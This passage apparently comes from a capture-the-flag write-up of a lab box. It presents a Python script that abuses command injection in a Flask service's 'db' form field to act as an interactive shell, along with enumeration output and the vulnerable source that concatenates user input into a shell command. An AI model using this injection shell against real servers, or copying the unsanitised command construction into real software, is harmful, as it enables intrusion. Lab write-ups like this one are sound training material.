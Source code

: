 ### Shell

Given that it seemed like I would be enumerating with just this command injection, I wrote a quick shell program to take commands and run them. It isn’t stateful, but allows for up arrow access to previous commands and made enumerating easier:

```

#!/usr/bin/python3

import requests
from bs4 import BeautifulSoup
from cmd import Cmd

class Terminal(Cmd):
    prompt = "fortune> "

    def default(self, args):
        resp = requests.post('http://10.10.10.127/select', data={"db": f"s;{args} 2>&1"}, proxies={"http": "http://127.0.0.1:8080"})
        soup = BeautifulSoup(resp.text, 'html.parser')
        print(soup.find("pre").text.strip())

term = Terminal()
term.cmdloop()

```

I send in a file that doesn’t exist as the db, followed by the command I want to run, and then just grab the result from the `<pre>` tags.

```

root@kali# ./fortune_shell.py 
fortune> id
uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)
fortune> pwd
/var/appsrv/fortune
fortune> ls
__pycache__
fortuned.ini
fortuned.log
fortuned.pid
fortuned.py
templates
wsgi.py

```

I can take this opportunity to check out the code for the site, and see clearly where my command injection takes place:

```

fortune> cat fortuned.py
from flask import Flask, request, render_template, abort
import os

app = Flask(__name__)

@app.route('/select', methods=['POST'])
def fortuned():

    cmd = '/usr/games/fortune '
    dbs = ['fortunes', 'fortunes2', 'recipes', 'startrek', 'zippy']
    selection = request.form['db']
    shell_cmd = cmd + selection
```